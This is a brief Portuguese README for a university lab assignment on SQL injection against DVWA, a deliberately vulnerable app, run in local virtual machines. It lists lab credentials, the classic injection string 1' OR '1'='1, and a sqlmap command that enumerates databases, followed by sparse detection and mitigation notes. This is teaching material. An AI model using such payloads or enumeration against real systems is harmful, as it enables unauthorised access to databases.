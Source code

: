 # Injeção de SQL com DVWA

Trabalho Prático 2 - Segurança e Auditoria em Sistemas - Ataques a Sistemas Computacionais

## Objetivo

Simular um ataque de injeção de SQL em uma aplicação web vulnerável e identificar como detectar e mitigar a falha.

## Preparação do Ambiente

- qemu
- arch linux
- dvwa
- git
- php
- mariadb
- apache
- openssh

## Credencias das Máquinas Virtuais

`ssh -p 2022 seg@127.0.0.1`

`ssh -p 3022 seg@127.0.0.1`

usuário: `seg`

senha: `seg`

## Configuração do DVWA

`http://localhost:2080/dvwa`

usuário: `admin`

senha: `password`

## Execução do Ataque

`1' OR '1'='1`

`sqlmap -u "http://10.0.2.2:2080/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=xxxx" --dbs`

## Detecção e Auditoria

`/var/log/httpd`

## Mitigação da Falha

`High`

## Evidências e Documentação

## Referências

- [QEMU](https://wiki.archlinux.org/title/QEMU)
- [Apache HTTP Server](https://wiki.archlinux.org/title/Apache_HTTP_Server)
- [MariaDB](https://wiki.archlinux.org/title/MariaDB)
- [PHP](https://wiki.archlinux.org/title/PHP)
